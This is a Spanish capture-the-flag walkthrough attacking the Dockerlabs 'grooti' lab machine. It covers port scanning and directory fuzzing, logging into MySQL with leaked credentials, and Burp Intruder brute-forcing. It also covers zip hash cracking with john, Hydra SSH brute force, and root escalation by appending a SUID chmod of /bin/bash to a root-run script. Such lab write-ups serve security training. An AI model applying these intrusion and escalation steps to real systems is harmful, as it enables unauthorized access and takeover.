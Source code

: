 ## LEVANTAMOS LA MÁQUINA

Vamos a la página de 'Dockerlabs' y buscamos la máquina grooti, vamos al enlace y la descargamos:
```bash
https://dockerlabs.es/
https://mega.nz/file/OEUQEJjC#Ckg_Wxq7MqLHTfpjXgXBAJuIxla3qFqWv42Xw_qTQYA
```
![Nmap Scan](/images/grooti/grooti1.png)



Descarhamos el zip en nuestra máquina Linux, descomprimimos con:
```bash
unzip grooti.zip
```
y ejecutamos:

```bash
sudo bash auto_deploy.sh grooti.tar
```
![Nmap Scan](images/grooti/grroti2.png)

## FASE ENUMERACIÓN

Comenzamos con un scaneo de los puertos que tiene abiertos y los servicios que corren por ellos, así como sus versiones por si hay alguna vulnerabilidad asociada:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2
```
![Nmap Scan](images/grooti/grooti3.png)
![Nmap Scan](images/grooti/grooti4.png)

Vemos:

  -Puerto 22 con SSH versión 9.6p1 no vulnerable
  
  -Puerto 80 HTTP
  
  -Puerto 3306 mysql

Dado que no tenemos credenciales vamos a centrarno en el puerto 80 http, vamos a lanzar un 'whatweb' para saber que está utilizando la página:

```bash
 whatweb 172.17.0.2
```

![Nmap Scan](images/grooti/grooti5.png)


Nada interesante, salvo que utiliza apache, llegados a este punto toca mirar el código fuente por si hay algo interesante:

Abrimos la página web:
![Nmap Scan](images/grooti/grooti6.png)

con Ctrl+u abrimos el código fuente y vemos dos cosas interesantes:

![Nmap Scan](images/grooti/grooti7.png)

1- que un usuario rocket ha entrado en la base de datos, recordad que el puerto 3306 corre con mysql


2- tres rutas:"imagenes","documentos","archives"



No obstante vamos a hacer un fuzzing para ver que más rutas podemos encontrar:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.17.0.2/' -x html,php,txt,bak,env,cgi,
```
![Nmap Scan](images/grooti/grooti8.png)

Vemos varias rutas con cosas interesante:
```
http://172.17.0.2/imagenes/ ----->http://172.17.0.2/imagenes/README.txt
```

Con un README.txt muy interesante:

![Nmap Scan](images/grooti/grooti9.png)

Ya tenemos un password: password1

```
http://172.17.0.2/archives/
```

Sin nada interesante


```
http://172.17.0.2/secret/
```
Con un listado de posibles usuarios:

![Nmap Scan](images/grooti/grooti10.png)

## INTRUSION EN BASE DE DATOS

Con todas las pistas vamos a intentar conectarnos a la base de datos con el usuario rocket y el password password1

```bash
mysql -h 172.17.0.2 -u rocket -ppassword1
```
Nos va a da un error y para corregirlo añadiremos --skip-ssl  quedando:
```bash
mysql -h 172.17.0.2 -u rocket -ppassword1 --skip-ssl
```
![Nmap Scan](images/grooti/grooti11.png)

Ahora que estamos conectados vamos a veer que bases de datos hay:
```
show databases;
```
encontramos `files_secret` vamos a utilizar esta base de datos

```bash
use files_secret;
```
listamos las tablas
```bash
show tables;
```
y mostramos todo lo que contiene la tabla `rutas`
```
select * from rutas;
```
![Nmap Scan](images/grooti/grooti12.png)

## FASE INTRUSIÓN
Encontrada una nueva ruta en la base de datos nos dirigimos a ella:

```
http://172.17.0.2/unprivate/secret/
```

vemos un panel donde podemos poner una frease y un numero del 1 al 100:

![Nmap Scan](images/grooti/grooti13.png)

Despues de mirar el código fuente, intentar inyectar cosas en el panel y no viendo nada raro, vamos a pasar la petición por burpsuite, dado que lo único que hace es descargar un archivo con el nombre password1.txt
el 1 varía y es el número que ponemos del 1 al 100. 

Capturamos la petición y vamos a lanzar un ataque de fuerza bruta a los numeros que introducimos


1- mandamos la petición al intruder:

![Nmap Scan](images/grooti/grooti14.png)

2-Seleccionamos dónde poner nuestro payload, concretamente en el número que metemos en el panael y le damos a "add"

![Nmap Scan](images/grooti/grooti15.png)

3-Cambiamos el payload type a Numers y from 1 to 100 para indicar que queremos solo numeros del 1 al 100

![Nmap Scan](images/grooti/grooti16.png)

y lanzamos el ataque con start attack

Cuando termina el ataque vamos a ordenar por el tamaño:

![Nmap Scan](images/grooti/grooti17.png)

Vemos que al poner el número 16 se dispara el tamaño de la respuesta y si miramos en ese número la respuesta vemos:

![Nmap Scan](images/grooti/grooti18.png)


Pues vamos a lanzar una petición con el número 16 y vemos que pasa, y nos descarga un zip protegido por cntraseña, vamos a romperla con 
john, lo primero usamos:

```bash
zip2john password16.zip > hash.txt
```
para generar el hash a romper del zip

y ahora intentamos romperlo con john:
```bash
 john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```
y rompe el hash:

![Nmap Scan](images/grooti/grooti19.png)

hacemos un unzip, metemos el password y nos descarga un txt:

![Nmap Scan](images/grooti/grooti20.png)

pues parece una lista de passwords, con esto vamos a probar fuerzabruta por ssh, antes hacemos una lista de users, os acordais de la página "http://172.17.0.2/secret/"
ahí teniamos tres usuarios: 
```
grooti
rocket
naia
```

vamos a meterlo en un archivo con el nombre users.txt y lanzamos un ataque con hidra, con esos usuarios y el archivo con los passwords que sacamos del zip:

![Nmap Scan](images/grooti/grooti21.png)

Nos conectamos por SSH como el usuario grooti a la IP victima:
```bash
ssh grooti@172.17.02
```
y cuando nos pide el password metemos
```
YoSoYgRoOt
```

Ya estamos dentro

##ESCALADA DE PRIVILEGIOS

Miro si estoy en algún grupo privilegiado con "id" y nada, si tengo algun privilegio sudo con "sudo -l" y nada, busco SUID y tampoco nada, listo usuarios y estamos root y yo xD

![Nmap Scan](images/grooti/grooti22.png)

Voy a detectar si hay algún proceso, copio en la victima en un archivo con nano este script:
```bash
https://github.com/lavafuego/herramientas/blob/main/detectar%20procesos%20en%20bash/procesos.sh
```
doy permisos de ejecución con chmod +x <nombre del archivo>
lo ejecuto:

![Nmap Scan](images/grooti/grooti23.png)

Veo que se ejecuta este proceso:
```
 /tmp/malicious.sh
```
miro los permisos que tengo sobre él, propietario root y puedo modificarlo
le añado una linea para modificar los permisos de la /bin/bash:
```bash
echo "chmod u+s /bin/bash" >>/tmp/malicious.sh
```
y espero a que vuelva a ejecutarse el proceso, cuando se ha ejecutado cambia los permisos de la /bin/bash y si lo ejecuto con la flag -p me convierto en root:
```bash
/bin/bash -p
```

![Nmap Scan](images/grooti/grooti24.png)


